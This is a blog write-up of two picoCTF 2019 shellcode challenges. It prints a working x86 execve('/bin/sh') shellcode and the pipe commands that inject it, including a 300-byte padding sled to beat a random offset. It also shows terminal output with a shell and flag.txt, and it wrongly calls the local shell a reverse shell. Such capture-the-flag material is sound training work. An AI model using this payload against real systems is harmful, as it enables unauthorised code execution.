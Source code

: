 ```yaml
---
date: 2019-10-25 23:48:05
layout: post
title:  "shellcode 1*2 - PicoCTF 2019"
subtitle: "Created by: Mrx-Exploit"
description: >- 
  Created by: Mrx-Exploit
tags: 
  - picoCTF 
  - pwn
image: >- 
  /assets/img/binary-exploitation/shellcode/banner.png
optimized_image: >- 
  /assets/img/binary-exploitation/shellcode/banner.png
category: blog
author: Hazem Hesham
paginate: true
---
```


# handy-shellcode

> Points: 50  
> Difficulty: easy  

This challenge looks easy so let's see what will happen  
After Downloading this challenge program we will use `chmod +x vuln` I think it's Basic knowledge  
Now let's run it  
```
root@kali:~/Desktop/picoctf# ./vuln
Enter your shellcode:
ls
ls
Thanks! Executing now...
Segmentation fault
```
It's Taking what any thing I type it and print it Hmmm  
Let's try to get reverse shellcode from [Shell-Code.org](http://shell-storm.org/shellcode/files/shellcode-606.php)  
So our Payload will be  
```
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln  
```
Then you will get reverse shell it's easy to hack :D  

---

# slippery-shellcode

> Points: 200  
> Difficulty: easy  

This challenge looks like first one so let's try the same shellcode and see what will happen  
```
root@kali:~/Desktop/picoctf# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                  1�@̀
Thanks! Executing from a random location now...
ls
Segmentation fault
```
Wait it's told me `from a random location` let's read the source code  
`int offset = (rand() % 256) + 1;`  
Hmm Let's see to give it bunsh of `A` in the first  
So our Payload will be  
```
(python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
```  

Let's see what will happen  
 
``` 
root@kali:~/Desktop/picoctf# (python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin����°
  1�@̀
Thanks! Executing from a random location now...

ls
flag.txt  vuln
```
We got our shell again it's looks easy too

